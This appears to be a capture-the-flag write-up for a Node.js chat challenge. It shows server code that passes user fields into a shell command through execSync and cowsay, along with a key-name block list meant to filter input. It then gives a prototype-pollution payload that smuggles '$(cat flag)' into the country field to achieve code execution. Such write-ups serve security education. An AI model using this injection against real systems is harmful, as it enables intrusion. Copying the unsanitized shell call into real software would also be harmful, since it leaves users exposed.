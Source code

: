 # Task Info
chat - 44 solves - 211 pts

> We received a new gig.
> Our goal is to review this application written in nodejs and see if we can get the flag from this system.
> Are you up for this?

## Time
10 minutes

# Solution
## TL;DR
* Inject country field using proto pollution to get RCE.

## Vulnerability
When a user join a channel,
server will broadcast a ascii art created using cowsay.
The function getAscii has command injection vulnerability.
```javascript
helper.getAscii("User " + u + " living in " + c + " joined channel")
// ...
{
    getAscii: function(message) {
        var e = require('child_process');
        return e.execSync("cowsay '" + message + "'").toString();
    }
}
```
Where `u` is `name` and `c` is `country`.
They have a WAF for input:
```javascript
{
    validUser: function(inp) {
        var block = ["source","port","font","country",
                     "location","status","lastname"];
        if(typeof inp !== 'object') {
            return false;
        }

        var keys = Object.keys( inp);
        for(var i = 0; i< keys.length; i++) {
            key = keys[i];

            if(block.indexOf(key) !== -1) {
                return false;
            }
        }

        var r =/^[a-z0-9]+$/gi;
        if(inp.name === undefined || !r.test(inp.name)) {
            return false;
        }

        return true;
    }
}
```
They use `Object.keys` to blacklist some fields,
and use a custom clone function,
which is vulnerable to proto pollution.

Register with `{"name":"a","__proto__":{"country":"'$(cat flag)'"}}` to get the flag.

